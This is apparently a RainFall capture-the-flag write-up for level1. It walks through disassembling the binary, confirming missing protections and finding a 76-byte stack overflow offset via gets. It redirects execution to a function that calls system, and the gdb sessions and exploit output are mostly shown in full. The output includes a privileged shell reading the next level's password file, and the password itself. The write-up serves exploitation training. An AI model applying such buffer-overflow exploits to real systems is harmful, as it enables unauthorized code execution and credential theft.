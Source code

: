 We use objdump to have a overview of the binary level1:

```
level1@RainFall:~$ objdump ./level1 -d
```

```asm
Disassembly of section .plt:

08048330 <gets@plt-0x10>:
 8048330:	ff 35 90 97 04 08    	pushl  0x8049790
 8048336:	ff 25 94 97 04 08    	jmp    *0x8049794
 804833c:	00 00                	add    %al,(%eax)
	...

08048340 <gets@plt>:
 8048340:	ff 25 98 97 04 08    	jmp    *0x8049798
 8048346:	68 00 00 00 00       	push   $0x0
 804834b:	e9 e0 ff ff ff       	jmp    8048330 <_init+0x38>

08048350 <fwrite@plt>:
 8048350:	ff 25 9c 97 04 08    	jmp    *0x804979c
 8048356:	68 08 00 00 00       	push   $0x8
 804835b:	e9 d0 ff ff ff       	jmp    8048330 <_init+0x38>

08048360 <system@plt>:
 8048360:	ff 25 a0 97 04 08    	jmp    *0x80497a0
 8048366:	68 10 00 00 00       	push   $0x10
 804836b:	e9 c0 ff ff ff       	jmp    8048330 <_init+0x38>

08048370 <__gmon_start__@plt>:
 8048370:	ff 25 a4 97 04 08    	jmp    *0x80497a4
 8048376:	68 18 00 00 00       	push   $0x18
 804837b:	e9 b0 ff ff ff       	jmp    8048330 <_init+0x38>

08048380 <__libc_start_main@plt>:
 8048380:	ff 25 a8 97 04 08    	jmp    *0x80497a8
 8048386:	68 20 00 00 00       	push   $0x20
 804838b:	e9 a0 ff ff ff       	jmp    8048330 <_init+0x38>


08048444 <run>:
 8048444:	55                   	push   %ebp
 8048445:	89 e5                	mov    %esp,%ebp
 8048447:	83 ec 18             	sub    $0x18,%esp
 804844a:	a1 c0 97 04 08       	mov    0x80497c0,%eax
 804844f:	89 c2                	mov    %eax,%edx
 8048451:	b8 70 85 04 08       	mov    $0x8048570,%eax
 8048456:	89 54 24 0c          	mov    %edx,0xc(%esp)
 804845a:	c7 44 24 08 13 00 00 	movl   $0x13,0x8(%esp)
 8048461:	00 
 8048462:	c7 44 24 04 01 00 00 	movl   $0x1,0x4(%esp)
 8048469:	00 
 804846a:	89 04 24             	mov    %eax,(%esp)
 804846d:	e8 de fe ff ff       	call   8048350 <fwrite@plt>
 8048472:	c7 04 24 84 85 04 08 	movl   $0x8048584,(%esp)
 8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
 804847e:	c9                   	leave  
 804847f:	c3                   	ret    

08048480 <main>:
 8048480:	55                   	push   %ebp
 8048481:	89 e5                	mov    %esp,%ebp
 8048483:	83 e4 f0             	and    $0xfffffff0,%esp
 8048486:	83 ec 50             	sub    $0x50,%esp
 8048489:	8d 44 24 10          	lea    0x10(%esp),%eax
 804848d:	89 04 24             	mov    %eax,(%esp)
 8048490:	e8 ab fe ff ff       	call   8048340 <gets@plt>
 8048495:	c9                   	leave  
 8048496:	c3                   	ret    
 8048497:	90                   	nop
 8048498:	90                   	nop
 8048499:	90                   	nop
 804849a:	90                   	nop
 804849b:	90                   	nop
 804849c:	90                   	nop
 804849d:	90                   	nop
 804849e:	90                   	nop
 804849f:	90                   	nop
 ```

The run function is of interest, there is a gets call in main, gets is vulnerable to buffer overflow attack.
So we will try to modify the return address to access run function that has a system function call.
First we check if level1 is vulnerable to overflowattack:

```
level1@RainFall:~$ checksec --file ./level1 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   ./level1
```

No canary found, so we can exploit with bufferoverflow
First we will fint out the offset of the buffer, then craft a payload.
We run pattern.py that basically outputs a string of pattern:

```
level1@RainFall:~$ python /tmp/pattern.py
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```
Then we will try our string as argument, we want to erase the eip in the main with the address of run function

```
level1@RainFall:~$ gdb -q ./level1
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048483
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
End of assembler dump.
(gdb) b *0x08048496
Breakpoint 2 at 0x8048496
(gdb) r
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048483 in main ()
(gdb) c
Continuing.
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Breakpoint 2, 0x08048496 in main ()
(gdb) info frame
Stack level 0, frame at 0xbffff740:
 eip = 0x8048496 in main; saved eip 0x63413563
 Arglist at 0x41346341, args:
 Locals at 0x41346341, Previous frame's sp is 0xbffff740
 Saved registers:
  eip at 0xbffff73c
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
=> 0x08048496 <+22>:    ret
End of assembler dump.
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
```
We have segfault at 0x63413563 and the info frame command gives us:
Stack level 0, frame at 0xbffff740:
eip = 0x8048496 in main; saved eip 0x63413563

So we know that eip has been overwritten by this value: 0x63413563
we will check the position of this in our string pattern using our script:
```
level1@RainFall:~$ python /tmp/pattern.py > /tmp/pattern
level1@RainFall:~$ python /tmp/pattern.py /tmp/pattern 0x63413563
offset found at: 76
```
We proceed to exploit with our exploit script:
```
level1@RainFall:~$ python /tmp/exploit.py 0x08048444 76
crafting payload...
done:
/tmp/payload_level1
level1@RainFall:~$ cat /tmp/payload_level1 - | ./level1

Good... Wait what?
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

We saw that the limit is 76 bytes, we can also proceed manually by identifying the eip address
and substract the address of the start of the buffer from it. We know from the disassembled code that
0x50 are reserved so the buffer is 0x50 - 0x10 long ie 64 bytes.

```
level1@RainFall:~$ gdb -q ./level1 
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048483
(gdb) r
Starting program: /home/user/level1/level1 

Breakpoint 1, 0x08048483 in main ()
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   ebp
   0x08048481 <+1>:	mov    ebp,esp
=> 0x08048483 <+3>:	and    esp,0xfffffff0
   0x08048486 <+6>:	sub    esp,0x50
   0x08048489 <+9>:	lea    eax,[esp+0x10]
   0x0804848d <+13>:	mov    DWORD PTR [esp],eax
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.
(gdb) b *0x08048495
Breakpoint 2 at 0x8048495
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 2, 0x08048495 in main ()
(gdb) info frame
Stack level 0, frame at 0xbffff740:
 eip = 0x8048495 in main; saved eip 0xb7e45400
 Arglist at 0xbffff738, args: 
 Locals at 0xbffff738, Previous frame's sp is 0xbffff740
 Saved registers:
  ebp at 0xbffff738, eip at 0xbffff73c
(gdb) x/24wx $esp
0xbffff6e0:	0xbffff6f0	0x0000002f	0xbffff73c	0xb7fd0ff4
0xbffff6f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff700:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff710:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff720:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff730:	0x41414141	0x41414141	0x41414141	0xb7e45400
(gdb) p/d 0xbffff73c - 0xbffff6f0
$1 = 76
```
